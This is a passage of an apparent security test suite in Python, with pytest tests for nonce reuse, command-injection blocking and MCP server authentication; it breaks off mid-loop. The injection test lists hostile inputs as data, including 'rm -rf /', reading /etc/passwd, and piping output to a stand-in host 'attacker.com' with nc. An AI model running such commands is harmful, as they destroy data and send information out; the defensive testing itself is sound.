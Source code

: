 ### 4.1 Automated Security Testing

```python
# security_test_suite.py
import pytest
import asyncio
from src.core.security_validators import SecurityValidators
from src.auth.security_enhancements import get_security_components

class TestSecurityImplementation:
    
    @pytest.mark.asyncio
    async def test_static_nonce_fixed(self):
        """Verify static nonce vulnerability is fixed."""
        from rust_core import SecureVault
        
        vault = SecureVault(b'a' * 32)
        
        # Encrypt same data twice
        plaintext = b"test data"
        cipher1 = vault.encrypt(plaintext)
        cipher2 = vault.encrypt(plaintext)
        
        # Nonces should be different
        assert cipher1[:12] != cipher2[:12], "Static nonce still in use!"
    
    @pytest.mark.asyncio
    async def test_command_injection_protection(self):
        """Test command injection prevention."""
        validator = SecurityValidators()
        
        # Test malicious inputs
        malicious_inputs = [
            "ls; rm -rf /",
            "echo test && cat /etc/passwd",
            "$(whoami)",
            "`id`",
            "test | nc attacker.com 1234"
        ]
        
        for evil_input in malicious_inputs:
            result = validator.validate_command_injection(evil_input)
            assert result is None, f"Command injection not blocked: {evil_input}"
    
    @pytest.mark.asyncio
    async def test_authentication_coverage(self):
        """Verify all MCP servers require authentication."""
        import importlib
        import inspect
        
        mcp_modules = [
            'src.mcp.infrastructure.commander_server',
            'src.mcp.monitoring.prometheus_server',
            'src.mcp.security.scanner_server'
        ]
        
        for module_name in mcp_modules:
            module = importlib.import_module(module_name)
            
            # Find MCP server classes
            for name, obj in inspect.getmembers(module):
                if inspect.isclass(obj) and 'MCP' in name:
                    # Check for authentication decorator
```